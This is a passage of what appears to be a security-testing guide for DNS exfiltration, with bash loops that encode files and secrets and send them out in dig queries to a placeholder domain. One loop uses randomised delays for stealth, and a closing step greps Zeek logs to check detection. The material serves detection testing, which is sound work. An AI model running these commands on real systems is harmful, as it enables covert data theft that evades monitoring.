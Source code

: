      # Medium-sized data exfiltration test (10KB file)
     dd if=/dev/urandom of=/tmp/medium_file bs=1024 count=10
     base64 /tmp/medium_file | fold -w 30 | nl | \
     while read n line; do dig $n.$line.test.yourdomain.com; sleep 0.5; done
     
     # Large data exfiltration test (1MB image file)
     cat /tmp/large_image.jpg | base64 | split -b 30 - chunk_
     for f in chunk_*; do dig $(cat $f).test.yourdomain.com @internal_dns; sleep 0.8; done
     ```
   
   * **Transmission speed testing**:
     ```bash
     # High-speed transmission test (as fast as possible)
     for i in $(seq 1 500); do dig $i.fastexfil.test.yourdomain.com & done
     
     # Stealthy slow transmission test (irregular intervals, average 30 seconds)
     cat /tmp/secret_data.b64 | while read line; do 
       dig $(echo $line).slowexfil.test.yourdomain.com;
       sleep $(awk 'BEGIN {print 15 + rand() * 30}');
     done
     ```
   
   * **Testing various encoding techniques**:
     ```bash
     # Base64 encoding test
     echo "secret_data" | base64 | tr -d '\n' > /tmp/b64.txt
     cat /tmp/b64.txt | dig $(cat -).b64.test.yourdomain.com
     
     # Hex encoding test
     echo "secret_data" | xxd -p | tr -d '\n' > /tmp/hex.txt
     cat /tmp/hex.txt | dig $(cat -).hex.test.yourdomain.com
     
     # Split encoding test (including chunk indicators)
     SECRET="LongSecretMessage123"
     for i in $(seq 0 3 ${#SECRET}); do
       chunk="${SECRET:$i:3}"
       dig $i.$chunk.split.test.yourdomain.com
     done
     ```

3. **Detection system verification**:
   * **Testing existing security solutions**:
     ```bash
     # Log analysis commands (check for detection after testing)
     # Check Zeek/Bro logs
     grep -i "yourtestdomain.com" /var/log/bro/current/dns.log | wc -l
     